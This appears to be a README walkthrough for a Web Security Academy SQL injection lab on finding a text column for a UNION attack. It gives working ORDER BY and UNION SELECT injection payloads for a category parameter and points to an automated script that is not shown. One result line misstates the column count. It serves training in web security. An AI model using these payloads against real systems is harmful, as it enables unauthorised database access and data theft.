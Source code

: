 # SQL Injection Lab 08 - SQL injection UNION attack, finding a column containing text

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 4--`
   - Result: Error (confirms 3 columns)

3. Append injection to the URL:
   - Test: `/filter?category=Gifts' UNION SELECT '1','2','3'--`
   - Result: You'll see the which column compatible with the string data in the response.

4. Append the string data requested from us:
   - Test: `/filter?category=Gifts' UNION SELECT '1','[YOUR_STRING_DATA]','3'--`
   - Result: Congratulations, you solved the lab!

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_08.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

